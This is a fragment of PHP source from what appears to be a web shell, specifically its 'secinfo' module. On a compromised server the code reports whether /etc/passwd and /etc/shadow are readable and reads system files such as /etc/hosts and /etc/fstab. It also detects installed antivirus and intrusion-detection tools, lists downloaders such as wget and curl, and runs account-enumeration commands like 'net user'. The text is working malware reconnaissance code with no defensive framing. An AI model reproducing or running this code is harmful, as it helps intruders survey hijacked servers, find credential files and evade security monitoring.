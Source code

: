 elseif ($action == 'secinfo') {
	
	secparam('Server software', @getenv('SERVER_SOFTWARE'));
	secparam('Disabled PHP Functions', ($GLOBALS['disable_functions'])?$GLOBALS['disable_functions']:'none');
	secparam('Open base dir', @ini_get('open_basedir'));
	secparam('Safe mode exec dir', @ini_get('safe_mode_exec_dir'));
	secparam('Safe mode include dir', @ini_get('safe_mode_include_dir'));
	secparam('cURL support', function_exists('curl_version')?'enabled':'no');
	$temp=array();
	if(function_exists('mysql_get_client_info'))
		$temp[] = "MySql (".mysql_get_client_info().")";
	if(function_exists('mssql_connect'))
		$temp[] = "MSSQL";
	if(function_exists('pg_connect'))
		$temp[] = "PostgreSQL";
	if(function_exists('oci_connect'))
		$temp[] = "Oracle";
	secparam('Supported databases', implode(', ', $temp));
	
	if( !IS_WIN ) {
		$userful = array('gcc','lcc','cc','ld','make','php','perl','python','ruby','tar','gzip','bzip','bzip2','nc','locate','suidperl');
		$danger = array('kav','nod32','bdcored','uvscan','sav','drwebd','clamd','rkhunter','chkrootkit','iptables','ipfw','tripwire','shieldcc','portsentry','snort','ossec','lidsadm','tcplodg','sxid','logcheck','logwatch','sysmask','zmbscap','sawmill','wormscan','ninja');
		$downloaders = array('wget','fetch','lynx','links','curl','get','lwp-mirror');
		secparam('Readable /etc/passwd', @is_readable('/etc/passwd') ? "yes" : 'no');
		secparam('Readable /etc/shadow', @is_readable('/etc/shadow') ? "yes" : 'no');
		secparam('OS version', @file_get_contents('/proc/version'));
		secparam('Distr name', @file_get_contents('/etc/issue.net'));
		$safe_mode = @ini_get('safe_mode');
		if(!$GLOBALS['safe_mode']) {
			$temp=array();
			foreach ($userful as $item)
				if(which($item)){$temp[]=$item;}
			secparam('Userful', implode(', ',$temp));
			$temp=array();
			foreach ($danger as $item)
				if(which($item)){$temp[]=$item;}
			secparam('Danger', implode(', ',$temp));
			$temp=array();
			foreach ($downloaders as $item) 
				if(which($item)){$temp[]=$item;}
			secparam('Downloaders', implode(', ',$temp));
			secparam('Hosts', @file_get_contents('/etc/hosts'));
			secparam('HDD space', execute('df -h'));
			secparam('Mount options', @file_get_contents('/etc/fstab'));
		}
	} else {
		secparam('OS Version',execute('ver'));
		secparam('Account Settings',execute('net accounts'));
		secparam('User Accounts',execute('net user'));
		secparam('IP Configurate',execute('ipconfig -all'));
	}
}//end
